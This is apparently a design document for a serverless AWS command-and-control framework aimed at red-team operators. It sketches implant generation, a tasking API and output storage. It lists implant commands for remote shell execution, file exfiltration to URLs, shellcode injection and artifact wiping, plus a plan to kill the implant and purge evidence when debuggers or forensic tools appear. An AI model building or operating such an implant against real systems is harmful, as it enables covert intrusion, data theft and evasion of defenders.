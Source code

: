 # Design

## Proposed Workflow

1. Red operator deploys the AWS serverless core (Lambdas, S3, etc.)
     -maybe use CDK for this?

2. Red operator generates an implant
  - do this locally?
  - lambda dynamically generates payload, stores in S3?
  - Why not both?

3. Red operator deploys implant to target
  - how this happens is up to you

4. Implant is executed on target system; implant calls back to implant-handler Lambda
  - effective access control will be key here

5. Red operator issues taskings through a locked down operator lambda

6. storage and state will be placed in S3
  - upload/download files
  - upload/download implant taskings
  - upload/download implant output

7. CloudWatch
  - provides detailed logs
  - red operator accountability

8. Stretch goal - support event based triggers
  - new software installed -> send operator alert
  - low battery -> extend sleep
  - suspicious processes spawned (debuggers, sysinternals, volatility, etc.) -> kill implant, purge artifacts, force reboot

## User Experience

### Installation

```bash
Users will need to download/install AWS CLI and configure it

# clone the repo
git clone https://github.com/bluesentinelsec/RedNimbusC2

# install and configure all dependencies
./scripts/install.sh

# boom - you are ready to operate
```

### Generate Implants

```bash
# granular example; most fields will be optional
./create_implant --format exe --arch amd64 --platform windows --c2url https://whatever \
    --callback-frequency 10 --kill-date 365 \
    --implant-group
    --allow-hostname myTarget --allow-user userName --allow-ip 10.10.10.10 \
    --verbose 
```

### Issue taskings
Lambda name: submitTasking

Taskings are sent via HTTP POST requests to API Gateway

API gateway passes to Lambda -> Lambda passes to S3; writes to a bucket - "taskings"

Security here is critical - only red operators should
be able to issue tasks

```bash
# issue singular tasking
./set-task --session-id uuid --cmd supportedCmd --args yourArguments

# task multiple sessions
./set_tasking --session-id uuid1,uuid2,uuid3 --cmd supportedCmd --args yourArguments

# task every session
./set_tasking --session-id all --cmd supportedCmd --args yourArguments

# task implants in a group
./set_tasking --session-group yourGroup --cmd supportedCmd --args yourArguments

# remove task
./remove-task --id <task ID>

# read task
./get-task --id <task ID>

# note: if 'nimbus_secret' env var is set, encrypt command with that key
# implant will have to know about the key
```

### Supported Commands

```
# download a file from target to S3
get-file <src file>,<dst file>

# put file from S3 to target
put-file <src file>,<dst file>

# target system will download a file from a URL
download-file <URL>,<dst file>

# target system will upload a file via HTTP POST to URL
upload-file <URL>

# run command from native shell environment
exec-cmd <command>

# execute a base64 encoded command
exec-b64cmd <base64 encoded command>

# list files in directory
list-files <file or dir>

# list files recursive
list-files-recursive <dir>

# get process listing
get-process

# get implant process ID
get-pid

# get network connections
get-netstat

# get network interface configuration
get-ifconfig

# load dynamic library in process
load-library <library in S3> <pid or proc name>

# load shellcode in process
load-shellcode <shellcode in S3> <pid or proc name>

# exit from the system and delete all artifacts
terminate-session

# change secret key; this will read an env variable, 'nimbus_secret'
set-secret

# set sleep interval
set-sleep <int>

# if implant fails to connect after X times, cleanup and terminate
set-retry-limit <int>
```

### Task structure

Unencrypted:
```
taskID: string
task: string
arguments: []string
sessionID: string
group: string
time: string
```

Encrypted
```
data: <encrypted task object>
```

### Get tasking output

tasks should get written to an S3 bucket - `output`

task output structure:

```
sessionID: string
hostname: string
osName: string
osVersion: string
kernel: string
implantUser: string
implantDir: string
implantProcessID: int
taskID: string
taskIssued: time
taskComplete: time
task: string
error: string
output: string
```

- get psp's should be a module / plugin

- task output can stream into a console window

- task output can be pulled from S3
  - perhaps queried with Athena?

- should we use CloudWatch for task output?

- Send notifications to Slack? Text message? Email?
